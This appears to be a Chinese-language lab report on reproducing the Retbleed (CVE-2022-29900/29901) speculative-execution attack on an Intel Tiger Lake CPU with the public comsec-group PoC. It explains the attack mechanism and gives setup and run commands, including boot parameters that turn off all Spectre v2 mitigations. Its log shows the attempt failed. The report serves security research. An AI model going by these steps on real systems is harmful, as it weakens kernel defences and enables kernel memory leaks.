

# Retbleed 实验报告

## 本项目具体说明

Retbleed（CVE-2022-29900、 CVE-2022-29901）展示了 Intel 处理器上，retpoline 防护机制对返回指令的防护缺陷所带来的内核内存泄露安全风险。本项目详细描述并复现了该漏洞的 PoC 验证流程，通过分支目标注入（BTI）技术，利用返回指令的推测执行漏洞，尝试实现跨权限（用户态→内核态）的分支目标劫持，验证 Retbleed 漏洞的核心原语。本次实验针对 Ubuntu 20.04 + 内核 5.8.0-63-generic 环境、Intel 11 代 Tiger Lake 架构（i5-11300H）处理器进行验证，因硬件级防护机制导致漏洞利用未成功，但完整跑通 PoC 实验流程。

## 涉及资源

- **Branch Target Buffer (BTB) 分支目标缓冲区**
  - **位置**: CPU 内部分支预测单元（BPU）
  - **功能**: 存储分支指令的目标地址，为分支预测提供依据，retpoline 机制将间接分支转为返回指令，本应避开 BTB 预测，仅使用返回栈缓冲区（RSB）。
  - **利用**: 当 RSB 发生下溢时，Intel 处理器的返回指令会回退到 BTB 预测，攻击者可通过训练 BTB 实现返回指令的分支目标注入，劫持内核态返回指令的推测执行流程。

- **Return Stack Buffer (RSB) 返回栈缓冲区**
  - **位置**: CPU 内部分支预测单元（BPU）
  - **功能**: 专门用于预测返回指令的目标地址，记录函数调用的返回地址，容量有限（Intel Coffee Lake 为 16 个条目）。
  - **利用**: 通过深度函数调用耗尽 RSB 条目，触发 RSB 下溢，让返回指令转而使用 BTB 进行预测，为 BTI 攻击创造条件。

- **Huge Page 大页内存**
  - **位置**: 物理内存 + 内核虚拟地址空间
  - **功能**: 2MB 大页减少内存页表开销，提升访问效率，透明大页（THP）为系统自动分配。
  - **利用**: 实验中需分配 1 个大页作为 Reload Buffer，用于跨权限的缓存侧信道通信，记录推测执行的内存访问痕迹。

- **Kernel Module 内核模块（retbleed_poc.ko）**
  - **位置**: Linux 内核空间
  - **功能**: 提供内核态的脆弱返回指令执行环境，包含泄露 Gadget，为跨权限 BTI 攻击提供内核侧触发点。
  - **利用**: 加载该模块后，内核会执行可控的返回指令，攻击者从用户态触发该指令，尝试劫持其推测执行流程。

- **Reload Buffer 重加载缓冲区**
  - **位置**: 大页内存对应的用户态 / 内核态映射地址
  - **功能**: 作为缓存侧信道的通信介质，存放 16 个检测条目，记录推测执行的内存访问结果。
  - **利用**: 内核态推测执行的泄露 Gadget 会访问该缓冲区的特定条目，攻击者通过检测缓冲区条目的缓存命中 / 未命中状态，判断是否成功劫持分支目标。

## 攻击原理



**核心利用逻辑**:
1.  **环境准备**: 配置大页内存，加载定制内核模块，在核内核态暴露存在漏洞的返回指令，为攻击提供触发点。
2.  **BTB训练**: 用户态执行 cp_bti 二进制程序，通过系统调用 / IOCTL 触发内核态的脆弱返回指令，同时构造分支历史训练 BTB，注入恶意分支目标。
3.  **RSB下溢**: 通过深度函数调用耗尽 RSB 条目，迫使 Intel 处理器的返回指令从 RSB 预测回退到 BTB 预测。
4.  **测信道检测**：利用 Flush+Reload 缓存侧信道技术，检测 Reload Buffer 的 16 个条目缓存状态；若某一条目出现缓存命中（非零值），说明成功劫持内核返回指令的推测执行流程，PoC 验证成功；若所有条目均为缓存未命中（全零值），说明攻击未成功。

## 项目核心代码文件
基于仓库https://github.com/comsec-group/retbleed的代码结构，核心文件与功能如下：

- **`retbleed_intel/pocs/cp_bti.c`**: 跨权限 BTI 验证的核心 PoC 文件，实现大页分配、内核模块通信、BTB 训练、RSB 下溢、缓存侧信道检测的完整逻辑。
- **`retbleed_intel/pocs/kmod_retbleed_poc/retbleed_poc.c`**: 漏洞验证内核模块核心代码，提供内核态脆弱返回指令，暴露内核地址信息，处理用户态 IOCTL 调用。
- **`retbleed_intel/pocs/kmod_retbleed_poc/Makefile`**: 内核模块编译脚本，适配 Linux 内核编译环境，生成 retbleed_poc.ko 模块文件。
- **`retbleed_intel/pocs/Makefile`**: PoC 二进制程序编译脚本，编译 cp_bti、ret_bti 等验证程序，指定编译参数（-O1）保证攻击逻辑不被编译器优化。

## 运行环境

- **软件环境**:
  - **语言**: C, Makefile, Bash
  - **系统**: VMware Virtual Platform Ubuntu 20.04 LTS（实验核心运行环境）
  - **Target Kernel**: 5.8.0-63-generic（项目官方验证版本）
  - **依赖工具**: libelf-dev, linux-modules-extra-5.8.0-63-generic

- **硬件版本**:
  - **CPU**: 11th Gen Intel(R) Core(TM) i5-11300H
  - **架构**: x86_64
  - **限制**: Intel 10 代及以上处理器开启硬件级 Enhanced IBRS 防护，直接阻断跨权限 BTI 攻击；虚拟机环境会进一步抹平缓存侧信道信号。

- **启动参数 (Kernel)**:
  - `spectre_v2=off retpoline=off ibpb=off ibrs=off rsb_fill=off`: 关闭所有 Spectre V2 相关软件防护，确保漏洞环境存在。

## 执行步骤

### 配环境步骤
1.  **配置 Kernel 防护参数**:
    ```bash
    GRUB_CMDLINE_LINUX_DEFAULT="quiet splash spectre_v2=off retpoline=off ibpb=off ibrs=off rsb_fill=off"
    sudo update-grub
    sudo reboot
    ```
2.  **安装实验依赖**:
    ```bash
    sudo apt update && sudo apt install -y build-essential clang gcc-multilib linux-headers-5.8.0-63-generic git libelf-dev linux-modules-extra-5.8.0-63-generic
    ```
3.  **克隆实验仓库**:
    ```bash
    git clone https://github.com/comsec-group/retbleed.git
    cd retbleed/retbleed_intel/pocs
    ```
4.  **配置大页内存**：
    ```bash
    echo 1 | sudo tee /proc/sys/vm/nr_hugepages
    # 验证大页配置，输出应为1
    cat /proc/sys/vm/nr_hugepages
    ```

### 运行步骤
1.  **编译并加载内核模块**:
    ```bash
    cd kmod_retbleed_poc
    # 编译内核模块
    make
    # 卸载旧模块（若存在）
    sudo rmmod retbleed_poc 2>/dev/null
    # 加载新模块
    sudo insmod retbleed_poc.ko
    # 验证模块加载，查看内核地址输出
    sudo dmesg -t | tail -5
    ```
2.  **编译并执行 cp_bti PoC:**:
    ```bash
    cd ..
    # 清理旧编译文件
    make clean
    # 编译cp_bti二进制程序
    make cp_bti
    # 执行跨权限BTI验证（需root权限）
    sudo ./cp_bti
    ```


### 预期效果

**运行日志示例**:
1.  **编译并加载内核模块**:
```text
gr@ubuntu:~/gr/retbleed_intel/pocs$ cd kmod_retbleed_poc
gr@ubuntu:~/gr/retbleed_intel/pocs/kmod_retbleed_poc$ make
make -C /lib/modules/5.8.0-63-generic/build M=/home/gr/gr/retbleed_intel/pocs/kmod_retbleed_poc modules
make[1]: Entering directory '/usr/src/linux-headers-5.8.0-63-generic'
  CC [M]  /home/gr/gr/retbleed_intel/pocs/kmod_retbleed_poc/retbleed_poc.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC [M]  /home/gr/gr/retbleed_intel/pocs/kmod_retbleed_poc/retbleed_poc.mod.o
  LD [M]  /home/gr/gr/retbleed_intel/pocs/kmod_retbleed_poc/retbleed_poc.ko
make[1]: Leaving directory '/usr/src/linux-headers-5.8.0-63-generic'
gr@ubuntu:~/gr/retbleed_intel/pocs/kmod_retbleed_poc$ sudo rmmod retbleed_poc 2>/dev/null
gr@ubuntu:~/gr/retbleed_intel/pocs/kmod_retbleed_poc$ sudo insmod retbleed_poc.ko
gr@ubuntu:~/gr/retbleed_intel/pocs/kmod_retbleed_poc$ sudo dmesg -t | tail -5
physmap_base ffff947570000000
kbr_src      0xffffffffc080087f
kbr_dst      0xffffffffc0800000
secret       0xffffffffc0802500
```
2.  **编译并执行 cp_bti PoC:**:
```text
gr@ubuntu:~/gr/retbleed_intel/pocs/kmod_retbleed_poc$ cd ..
gr@ubuntu:~/gr/retbleed_intel/pocs$ make clean
rm  -f ret_bti cp_bti eval_bw
gr@ubuntu:~/gr/retbleed_intel/pocs$ make cp_bti
clang -O1 -o cp_bti cp_bti.c
gr@ubuntu:~/gr/retbleed_intel/pocs$ sudo ./cp_bti
rb_pa   0xb5600000
rb_kva  0xffff947575600000
kbr_src 0xffffffffc080087f
kbr_dst 0xffffffffc0800000
secret  0xffffffffc0802500
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 
```


### 参考资料
# 1.https://www.usenix.org/conference/usenixsecurity22/presentation/wikner
# 2.https://github.com/comsec-group/retbleed